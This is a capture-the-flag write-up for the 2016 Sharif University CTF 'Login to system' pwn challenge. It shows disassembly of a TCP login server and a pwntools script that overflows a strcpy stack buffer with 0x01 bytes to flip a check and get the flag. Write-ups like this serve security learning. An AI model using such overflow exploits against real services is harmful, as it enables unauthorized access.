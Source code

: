 ```yaml
---
title: 'Sharif University CTF 2016: Login to system (pwn 100)'
date: 2016-02-07 00:00:00 Z
categories:
- writeup
tags:
- cat/pwn
- tool/pwntools
layout: post
author: f0rki
---
```


* **Category:** pwn
* **Points:** 100
* **Description:**

> Can you login to this system without username and password?
>
> telnet ctf.sharif.edu 27515
>
> Download Question.zip


## Write-up

The binary we were given was a threaded TCP server. The connection handling
function is at `0x00400de4`. It asks for username and password. The goal is to
login without username/password. The following piece of code checks whether a
a byte on the stack is `0x01` and then executes code that apparently reads the
flag and sends it to us.

```
│           0x00400f91      488d45e0       lea rax, [rbp-local_4]
│           0x00400f95      0fb600         movzx eax, byte [rax]
│           0x00400f98      3c01           cmp al, 1
```

Fortunately right before this check there is a call to strcpy:

```
│           0x00400f78      488d95d0fbff.  lea rdx, [rbp-local_134]
│           0x00400f7f      488d8520fbff.  lea rax, [rbp-local_156]
│           0x00400f86      4889d6         mov rsi, rdx
│           0x00400f89      4889c7         mov rdi, rax
│           0x00400f8c      e80ffcffff     call sym.imp.strcpy
```

So a stack based buffer overflow and overwriting a local variable. This is
easy. With a quick `pwntools` script we are able to get the flag:


```
from pwn import *  # NOQA

context.os = "linux"
context.arch = "amd64"
context.log_level = "debug"

vulnbin = "./Question"
velf = ELF(vulnbin)
vp = remote("ctf.sharif.edu", 27515)

username = "yomama"
password = "\x01" * 1050

x = vp.recvuntil("enter:")
assert "username" in x
vp.sendline(username)
x = vp.recvuntil("enter:")
assert "password" in x
vp.sendline(password)

with context.local(log_level='debug'):
    vp.clean_and_log()

vp.interactive()
```
